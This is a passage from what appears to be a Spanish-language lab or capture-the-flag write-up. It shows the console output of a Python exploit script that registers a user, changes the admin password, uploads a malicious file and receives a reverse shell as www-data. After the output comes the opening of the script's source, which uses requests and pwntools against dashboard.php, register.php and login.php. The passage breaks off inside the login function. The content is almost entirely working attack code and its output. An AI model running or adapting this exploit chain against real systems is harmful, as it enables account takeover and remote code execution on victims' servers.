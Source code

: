 Si lo ejecutamos:
```
python subida.py 192.168.233.128 192.168.233.129
[!] Asegurarse de no haber creado ningún usuario, en caso contrario modificar el id en urlIndex
[+] Usuario creado
[+] Contraseña de admin cambiada con éxito
[+] Subiendo archivo malicoso
[+] Trying to bind to :: on port 1234: Done
[+] Waiting for connections on :::1234: Got connection from ::ffff:192.168.233.129 on port 60244
[*] Switching to interactive mode
bash: cannot set terminal process group (88930): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.0$ $ whoami
whoami
www-data
```

El código completo es este:


```py
import requests,subprocess,socket
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) < 3:
    print(f'[!] Uso: python3 {sys.argv[0]} "Tu IP"  "Ip de la víctima"\n' )
    sys.exit(1)

print("[!] Asegurarse de no haber creado ningún usuario, en caso contrario modificar el id en urlIndex")
sleep(1)
ipHost= sys.argv[1]
ipVic= sys.argv[2]

urlIndex = f'http://{ipVic}/dashboard.php?id=2' # Modificar id si ya has creado usuarios.
urlAdmin = f'http://{ipVic}/dashboard.php?id=1'
urlRegister= f'http://{ipVic}/register.php'
urlLogin= f'http://{ipVic}/login.php'

usr= "testo"
passw= "testo"

s = requests.Session()

def register():

    post_data = { 
        "username": f'{usr}',
        "email": f'{usr}%20{usr}',
        "password": f'{passw}'
     }

    r = s.post(urlRegister,data=post_data)
    print("[+] Usuario creado")

def login():

    post_data = { 
       "username": f'{usr}',
```